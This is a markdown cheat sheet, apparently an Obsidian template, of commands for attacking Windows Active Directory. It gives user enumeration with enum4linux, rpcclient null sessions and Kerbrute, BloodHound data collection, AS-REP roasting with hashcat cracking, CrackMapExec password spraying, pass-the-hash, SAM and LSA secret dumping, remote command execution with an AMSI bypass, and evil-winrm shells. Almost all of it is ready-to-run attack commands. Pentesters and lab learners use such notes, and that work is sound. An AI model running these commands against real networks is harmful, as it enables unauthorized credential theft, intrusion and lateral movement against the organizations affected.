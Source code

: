 # Active Dirctory
## User Enum

### Enum4Linux
```bash
enum4linux -U <% tp.frontmatter.dc_ip %>  | grep "user:" | awk -F'[][]' '{print $2}' > users
```

### RPCClient 
**Null session**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $2}' > users
```

**If you would like all RIDs**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $4}' > RIDs
```

**Query each user for additional information**
```
cat RIDs | while read rid; do rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c "queryuser $rid"; done
```

**Get all groups**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomgroups'
```

## Kerbrute
**Change wordlist if you  have put together a custom one**
```bash
kerbrute userenum -d <% tp.frontmatter.domain %> --dc <% tp.frontmatter.dc_ip %> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

## Bloodhound
### Start server
#### Start Neo4j server
```bash
sudo neo4j console
```

#### Start bloodhound
```bash
bloodhound
```

### Gathering data
#### Sharphound
Download [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
```powershell
Import-Module .\SharpShound.ps1
```

##### Collection data
```powershell
Invoke-BloodHound -CollectionMethod ALL -Domain <%tp.frontmatter.domain %> -ZipFileName file.zip
```

#### Python bloodhound
```bash
sudo bloodhound-python -u '<user>' -p '<password>' -ns <% tp.frontmatter.dc_ip %> -d <% tp.frontmatter.domain %> -c all --zip
```

## Attacking users

### GetNPUsers

```bash
GetNPUsers.py '<% tp.frontmatter.domain %>/' -usersfile users -format hashcat -outputfile hashes -dc-ip <% tp.frontmatter.dc_ip %>
```

#### Hashcat
```bash
hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
```

### CrackMapExec
#### Generic basic command
```bash
crackmapexec <protocol> <ip/cidr> -u <user> -d <domain> -p <pass>
```

#### Check creds against SMB
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password>
```

#### List shares
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --shares
```

#### Testing winrm
```bash
sudo crackmapexec winrm <% tp.frontmatter.target_ip %> -u <user> -p <password> --shares
```

#### Testing multiple users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user_txt> -p <password>
```

#### Using Hash
```bash
crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -H <NT Hash> --local-auth
```

#### Using Hash dump SAM
```bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
```

#### Using Hash sump LSA
```bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
```

#### Discovering more users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --users
```

#### Logged on users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --loggedon-users
```

#### Execute command
```bash
crackmapexec <% tp.frontmatter.target_ip %> -u <user> -p <password> -x <cmd>
```

#### AMSI bypass
```bash
crackmapexec <% tp.frontmatter.target_ip %> -u <user> -p <password> -x <cmd> --amsi-bypass <path_payload>
```

### Evil winrm
#### Passing hash
```bash
evil-winrm -i <% tp.frontmatter.target_ip %> -u <user> -H <NTLM>
```

#### Using creds
```bash
evil-winrm -i <% tp.frontmatter.target_ip %> -u <user> -p <pass>
```

#### Commands with evil-winrm shell
```powershell
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```
